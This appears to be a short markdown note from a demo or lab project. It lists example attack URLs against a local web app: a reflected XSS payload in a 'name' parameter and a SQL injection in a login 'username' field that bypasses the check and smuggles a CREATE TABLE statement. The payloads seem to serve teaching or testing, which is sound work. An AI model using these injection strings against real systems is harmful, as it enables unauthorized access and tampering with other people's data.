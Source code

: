 # XSS Injection

```
http://127.0.0.1:3000/welcome?name=<script>alert("Hello world")</script>
```

# SQL Injection

## Create Table

```
http://127.0.0.1:3000/login?username=test' OR 1=1; CREATE TABLE table(id INT, name VARCHAR(255)); --
```